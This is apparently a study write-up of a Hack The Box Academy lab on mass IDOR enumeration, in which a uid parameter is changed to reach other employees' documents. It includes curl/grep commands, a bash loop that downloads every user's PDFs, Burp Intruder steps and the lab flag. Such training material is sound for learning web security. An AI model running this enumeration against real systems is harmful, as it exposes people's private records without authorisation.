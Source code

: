 # Mass IDOR Enumeration

### Insecure Parameters

web application that hosts employee records:

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_employee_manager.jpg" alt=""><figcaption><p>Employee Manager</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/documents.php?uid=1</p></figcaption></figure>

we are logged in as employee who as `uid=1`, In the web app we see the documents uploaded by our user. the links of the files are.

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

If we change the uid value to `uid=2`, we will see that the links of the documents changed to&#x20;

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

This is a common mistake found in web applications suffering from IDOR vulnerabilities, as they place the parameter that controls which user documents to show under our control while having no access control system on the back-end.

### Mass Enumeration

Although we could enumerate manually and get the documents, it is not efficient. It's better to automate the task using Burp Intruder or ZAP Fuzzer to retrive the files.

To do so, we check the HTML source code of the files.

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

**pick any unique word to be able to `grep` the link of the file**. (we know each link starts with \
`<li class='pure-tree_link'>`

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```

**Using Regex pattern to grep**

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

> match strings between /documents and .pdf

simple bash script to get the documents with different uid

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Assessment

get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

<figure><img src="../../../.gitbook/assets/image (95) (1).png" alt=""><figcaption><p>Send request to intruder</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption><p>payload 1-20</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption><p>request number 15 has very different size of response.</p></figcaption></figure>

We found the flag where `uid=15`

<figure><img src="../../../.gitbook/assets/image (97) (1).png" alt=""><figcaption><p>HTB{4ll_f1l35_4r3_m1n3}</p></figcaption></figure>

